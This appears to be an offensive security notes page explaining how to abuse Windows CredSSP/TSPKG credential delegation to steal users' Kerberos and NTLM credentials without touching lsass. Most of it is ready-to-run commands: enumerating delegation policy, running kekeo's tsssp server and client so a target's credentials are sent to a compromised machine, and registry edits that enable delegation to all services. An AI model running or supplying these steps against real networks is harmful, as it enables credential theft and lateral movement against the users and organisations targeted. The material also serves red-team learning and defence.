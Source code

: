 # CredSSP / TSPKG

{% embed url="https://clement.notin.org/blog/2019/07/03/credential-theft-without-admin-or-touching-lsass-with-kekeo-by-abusing-credssp-tspkg-rdp-sso/" %}

## <mark style="color:red;">Credentials Delegation</mark>

Credential Delegation is a feature that allows domain administartors to authorize certain machines or to be more precise - certain SPNs, to accept delegated passwords. In other words, this means that certain services on certain machines can be set to allow users to authenticate without the need to supply their credentials interactively - almost like a Single Sign On.

## <mark style="color:red;">Exploitation</mark>

### <mark style="color:orange;">Enumerating Delegated Credentials via AD</mark>

```
gpresult /h report.html
# or Get-GPOReport if you have access to AD admin tools
```

Additionally, we can use [Parse-Polfile](https://github.com/PowerShell/GPRegistryPolicyParser) to parse the registry.pol of the linked GPO. First of, let's find the GPO that is being applied to the user spotless:

```
Get-NetGPO -UserIdentity spotless
```

and then parse the policy file:

```
Parse-PolFile -Path "\\offense.local\sysvol\offense.local\Policies\{31B2F340-016D-11D2-945F-00C04FB984F9}\MACHINE\Registry.pol"
```

### <mark style="color:orange;">Dumping Kerberos Credentials</mark>

If credential delegation is set up, credentials can be dumped without touching lsass with a tool called kekeo.

{% embed url="https://github.com/gentilkiwi/kekeo" %}

Let's spin up a tsssp named pipe server where targets of whom the credentials we want to steal, will connect to, on the compromised pc1  (running as SYSTEM):

{% code title="pc1.lab.local" %}
```
tsssp::server
```
{% endcode %}

{% hint style="info" %}
Kekeo on pc1 must be running as NT\SYSTEM for this to work
{% endhint %}

Now, let's connect to the tsssp server on pc1 from the target computer pc2 (we want currently logged on user's from pc2 credentials to be stolen by being sent to the tsssp server on pc1 over the named pipe):

{% code title="pc2.lab.local" %}
```
tsssp::client /target:termsrv/pc1.lab.local /pipe:\\pc1.lab.local\pipe\kekeo_tsssp
```
{% endcode %}

### <mark style="color:orange;">Enumerating Delegated Credentials Locally</mark>



Once on the box, we can check if credential delegation is turned on:

```
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation
```

#### key value should be set to 0x1.

We can then check what SPNs accept delegated credentials.

Below shows that the box we have access to is allowed to delegate credentials to all termsrv SPNs - all RDP services:

<pre><code>HKEY_LOCAL_MACHINE\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials

<strong>1    REG_SZ    termsrv/*</strong></code></pre>

### <mark style="color:orange;">Dumping NTLM Credentials</mark>

For the technique to work with NTLM credentials, below needs to be enabled in AD in Computer Configuration > Policies > Administrative Templates > System > Credential Delegation.

```
value = *
```

the NTLM delegated credential dumping attack can be performed locally on the target system - we only need two kekeo instances running as low privileged users, unlike with kerberos credential dumping where the tsssp server had to be running as SYSTEM.

{% code title="pc2" %}
```
tsssp::server
```
{% endcode %}

And connect to it from another console as the same user:

{% code title="pc2" %}
```
tsssp::client /target:termsrv/pc2.lab.local
```
{% endcode %}

## <mark style="color:red;">Enabling Credential Delegation</mark>

If you have admin rights on the compromised box, you can enable all credential delegation like so:

```
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefaultCredentials /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefault /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefaultCredentials /v 1 /t REG_SZ /d "*"
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v AllowDefCredentialsWhenNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /v ConcatenateDefaults_AllowDefNTLMOnly /t REG_DWORD /d 1
reg add HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation\AllowDefCredentialsWhenNTLMOnly /v 1 /t REG_SZ /d "*"
​
# delete all
reg delete HKLM\SOFTWARE\Policies\Microsoft\Windows\CredentialsDelegation /f
```
